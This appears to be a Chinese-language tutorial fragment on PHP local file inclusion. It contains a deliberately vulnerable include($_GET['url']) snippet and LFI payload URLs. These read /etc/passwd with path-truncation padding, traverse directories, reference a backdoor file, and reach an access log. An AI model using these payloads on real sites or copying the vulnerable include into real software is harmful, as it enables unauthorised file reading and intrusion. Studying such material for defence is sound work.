 ```
http://www.site.com/lfi.php?page=/etc/passwd..............................
```

```
http://www.site.com/lfi.php?page=/etc/passwd.\.\.\.\.\.\.\.\.\.\.\.\.\.\.\.\
```

***

```
<?php
  include($_GET['url']);
 ?>

```

根据HTTP参数的定义，"?"后面的内容被当作了传给这个脚本的参数

```
 test.php?url=p.php
```

相对路径

```
test.php?url=./p.php当前目录
```

```
test.php?url=../../p.php上级目录
```

```
test.php?url=./PHP-backdoors/44.php下级目录
```

绝对路径

```
 test.php?url=/home/wwwroot/default/p.php
```

限制包含路径

```
/home/wwwroot/default/445.gif

include '/home/wwwroot/'.$file;

dos.php?file=../default/445.gif
```

```
include '/home/'.$file;

dos.php?file=/wwwroot/default/445.gif
```

```
/home/wwwroot/default/445.gif

/home/wwwlogs/access.log

include '/home/wwwroot/default/'.$file;

dos.php?file=../../wwwlogs/access.log
```

